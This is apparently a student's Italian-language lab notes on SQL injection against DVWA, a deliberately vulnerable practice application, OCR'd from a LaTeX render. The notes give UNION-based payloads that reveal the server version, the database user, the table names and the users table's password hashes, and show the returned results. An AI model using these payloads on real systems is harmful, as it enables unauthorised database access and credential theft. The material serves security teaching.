 \documentclass[11pt]{article}
\begin{document}
    SQL injection è fondamentalmente una tecnica attraverso la quale gli
aggressori possono eseguire le proprie istruzioni SQL dannose
generalmente indicate come payload dannoso. Attraverso i malicious SQL
statements, gli aggressori possono rubare informazioni dal database
delle vittime. L'obiettivo di questa attività è di ottenere informazioni
sulle tabelle del database e sul server di hosting (ad es. in esecuzione
SO o nome host macchina).

    1' UNION select 1, version()\# stampa il numero di versione del server
MySQL in esecuzione

La funzione MySQL user()stampa lo user name attuale e l'host da cui è
partita la connessione SQL

1' UNION select 1, user()\# L'utente SQL usato dall'applicazione DVWA è
root. Il database è ospitato sullo stesso host dall'applicazione

1' UNION select 1, table\_name!!FROM information\_schema.tables!!WHERE
table\_schema = `dvwa'\#!

Otteniamo le due tabelle guestbook e users

    \hypertarget{exercise-3-steal-account-credentials-security-low}{%
\section{Exercise \#3: Steal account credentials (security
low)}\label{exercise-3-steal-account-credentials-security-low}}

    La memorizzazione delle credenziali dell'account in un database è sempre
un punto cruciale, le password dovrebbero essere sempre hashed, quindi
se un hacker li ruba attraverso un'inkection SQL, sarebbero ancora
protette. Con l'ultimo esercizio hai scoperto alcuni nomi di tabelle,
puoi individuare informazioni sulle password degli account? Quale
algoritmo di crittografia viene utilizzato? Extra 3.1: se lo desideri,
puoi provare ad accedere come utente arbitrario aggiornando la password
di un determinato account con il tuo hash preferito; ma ricorda che nel
mondo reale questo apporta modifiche irreversibili al database, inoltre
la tua attività potrebbe essere registrata da qualche parte.

    ID: 1' union select 1, password from users \# First name: admin Surname:
admin

ID: 1' union select 1, password from users \# First name: 1 Surname:
5f4dcc3b5aa765d61d8327deb882cf99

ID: 1' union select 1, password from users \# First name: 1 Surname:
e99a18c428cb38d5f260853678922e03
\end{document}
